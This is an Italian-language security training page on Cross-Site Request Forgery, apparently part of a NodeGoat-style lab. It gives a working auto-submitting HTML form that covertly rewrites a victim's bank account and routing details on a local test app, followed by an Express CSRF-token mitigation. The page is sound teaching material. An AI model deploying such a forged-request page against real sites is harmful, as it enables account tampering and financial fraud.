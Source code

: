 # A8 - Cross-Site Request Forgery (CSRF) 
Per sfruttare questa vulnerabilità un attaccante dovrebbe costruire un sito malevolo e inviarlo alla vittima. Quando la vittima clicca sul link, la pagina html viene caricata e il form viene sottomesso aggiornando le informazioni del profilo della vittima.
```html
<html lang="en">
    <head></head>
    <body>
        <iframe name="hidden_iframe" style="display:none;"></iframe>
        <script>
            window.onload = function(){
            // Create a <form> element
            var p = document.createElement("form");
            p.action = "http://localhost:4000/profile";
            p.method = "post";
            p.target="hidden_iframe";
            // The fields are hidden, the victim will not see them.
            var fields;
            fields += "<input type='hidden' name='bankAcc' value='9999999'>";
            fields += "<input type='hidden' name='bankRouting' value='88888888#'>";
            p.innerHTML = fields;
            // Append the form to the current page
            document.body.appendChild(p);
            // Submit the form
            p.submit();
            }
        </script>
    </body>
</html> 
```
![](../img/A8/csrf.png)

#### 🛡️ Mitigation
Nel file `server.js` si può includere il middleware express CSRF dopo aver inzializzato la sessione
```js
 //Enable Express csrf protection
    app.use(express.csrf());

    app.use(function(req, res, next) { 
        res.locals.csrftoken = req.csrfToken(); 
        next(); 
    }); 
```
💡 **Spiegazione**:
- ✅ questo middleware controlla che ogni richiesta POST/PUT/DELETE contenga un token CSRF valido, legato alla sessione dell’utente.
- ✅ inoltre genera un token CSRF valido per la sessione corrente, usando `req.csrfToken()` e lo salva in `res.locals.csrftoken`, così può essere facilmente usato nel template HTML:

```html
<input type="hidden" name="_csrf" value="{{ csrftoken }}">
```

![](../img/Mitigation/csrfValido.png)

---

![](../img/Mitigation/CsrfNonValido.png)


<!--[🔙](01-as-is.md#a8---cross-site-request-forgery-csrf)-->
[🔙](../README.md#a8---cross-site-request-forgery-csrf)